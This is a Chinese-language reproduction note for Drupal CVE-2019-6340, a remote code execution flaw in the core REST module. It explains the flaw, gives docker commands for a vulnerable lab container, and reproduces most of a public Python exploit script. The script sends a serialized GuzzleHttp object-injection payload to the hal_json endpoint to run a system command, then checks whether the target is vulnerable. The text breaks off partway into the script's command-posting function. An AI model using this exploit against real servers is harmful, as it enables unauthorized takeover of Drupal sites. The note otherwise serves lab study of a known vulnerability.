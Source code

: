-   漏洞成因

该漏洞存在于 Drupal 核心 RESTful Web Services (REST) 模块中，该模块默认情况下是禁用的。当用户启用该模块时，攻击者可以利用 REST API 中的某些字段类型无法正确清理非格式源中的数据，通过精心构造的恶意请求，在服务器上执行任意代码。

-   漏洞影响

该漏洞允许攻击者在未经授权的情况下，在目标服务器上执行任意代码，从而获取服务器控制权，并进行各种恶意操作，

```plain
docker pull knqyf263/cve-2019-6340
docker run -d -p 18084:80 --name Drupal8  knqyf263/cve-2019-6340
```

exp:[https://github.com/zhzyker/exphub/blob/master/drupal/cve-2019-6340\_cmd.py](https://github.com/zhzyker/exphub/blob/master/drupal/cve-2019-6340_cmd.py)

```plain
import requests
import sys
import re

if len(sys.argv) != 2:
    print("+---------------------------------------------------------------+")
    print("+ DES: by zhzyker as https://github.com/zhzyker/exphub          +")
    print("+                    https://freeerror.org/d/488                +")
    print("+---------------------------------------------------------------+")
    print("+ USE: python3 <filename> <url>                                 +")
    print("+ EXP: python3 cve-2019-6340_cmd.py http://freeerror.org:8080   +")
    print("+ VER: Drupal < 8.6.10                                          +")
    print("+      Drupal < 8.5.12                                          +")
    print("+---------------------------------------------------------------+")
    sys.exit()

url = sys.argv[1]
cmd = "whoami"
dir = "/node/?_format=hal_json"
url_dir = url + dir
cmd_len = len(cmd)

payload = (
    '{\r\n  "link": [\r\n    {\r\n      "value": "link",\r\n      "options": "O:24:\\"GuzzleHttp\\\\Psr7\\\\FnStream\\":2:{s:33:\\"\\u0000GuzzleHttp\\\\Psr7\\\\FnStream\\u0000methods\\";a:1:{s:5:\\"close\\";a:2:{i:0;O:23:\\"GuzzleHttp\\\\HandlerStack\\":3:{s:32:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000handler\\";s:%s:\\"%s\\";s:30:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000stack\\";a:1:{i:0;a:1:{i:0;s:6:\\"system\\";}}s:31:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000cached\\";b:0;}i:1;s:7:\\"resolve\\";}}s:9:\\"_fn_close\\";a:2:{i:0;r:4;i:1;s:7:\\"resolve\\";}}"\r\n    }\r\n  ],\r\n  "_links": {\r\n    "type": {\r\n      "href": "%s/rest/type/shortcut/default"\r\n    }\r\n  }\r\n}'
    % (cmd_len, cmd, url)
)
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0",
    "Connection": "close",
    "Content-Type": "application/hal+json",
    "Accept": "*/*",
    "Cache-Control": "no-cache",
}
response = requests.request("POST", url_dir, data=payload, headers=headers)
if response.status_code == 403 and "u0027access" in response.text:
    print("[+] Find Drupal CVE-2019-6340 Vuln!\n")
else:
    print("[-] Not Drupal CVE-2019-6340 Vuln! Good Luck~\n")
    sys.exit()


def do_post(cmd):
    payload = (
```